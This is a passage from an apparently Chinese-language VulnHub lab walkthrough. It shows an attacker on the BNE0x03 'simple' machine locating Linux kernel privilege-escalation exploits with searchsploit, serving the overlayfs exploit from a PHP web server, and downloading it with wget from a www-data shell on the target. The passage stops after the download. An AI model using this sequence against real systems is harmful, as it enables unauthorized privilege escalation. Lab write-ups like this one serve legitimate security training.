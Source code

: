     [!] Could not find EDB-ID #
    
    
      Exploit: Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation
          URL: https://www.exploit-db.com/exploits/3
         Path: /usr/share/exploitdb/exploits/linux/local/3.c
        Codes: OSVDB-4565, CVE-2003-0127
     Verified: True
    File Type: C source, ASCII text
    Copied to: /home/kali/Documents/WalkThrough/vulnhub/BNE0x03-simple/3.c
    
    
      Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
          URL: https://www.exploit-db.com/exploits/37292
         Path: /usr/share/exploitdb/exploits/linux/local/37292.c
        Codes: CVE-2015-1328
     Verified: True
    File Type: C source, ASCII text, with very long lines (466)
    Copied to: /home/kali/Documents/WalkThrough/vulnhub/BNE0x03-simple/37292.c
    ```

-   开启PHP简易服务器，等待靶机下载exp

-   ```shell
    ❯ php -S 0:80                                                                                                                                                                   
    [Thu Jun  8 20:24:56 2023] PHP 8.2.5 Development Server (http://0:80) started
    [Thu Jun  8 20:25:21 2023] 192.168.2.146:50882 Accepted
    [Thu Jun  8 20:25:21 2023] 192.168.2.146:50882 [200]: GET /37292.c
    [Thu Jun  8 20:25:21 2023] 192.168.2.146:50882 Closing
    
    ```

-   切换到`/tmp`目录下保证当前用户具有保存权限

-   ```shell
    www-data@simple:/etc/mysql$ cd /tmp
    cd /tmp
    www-data@simple:/tmp$ ls
    ls
    www-data@simple:/tmp$ ls -lhai
    ls -lhai
    total 8.0K
    261983 drwxrwxrwt  2 root root 4.0K Jun  8 08:18 .
         2 drwxr-xr-x 21 root root 4.0K Sep  9  2015 ..
    www-data@simple:/tmp$ wget http://192.168.2.128/37292.c
    wget http://192.168.2.128/37292.c
    --2023-06-08 08:25:21--  http://192.168.2.128/37292.c
    Connecting to 192.168.2.128:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 4968 (4.9K) [text/x-c]
    Saving to: '37292.c'
    
    100%[======================================>] 4,968       --.-K/s   in 0s      
    
    2023-06-08 08:25:21 (1.33 GB/s) - '37292.c' saved [4968/4968]
    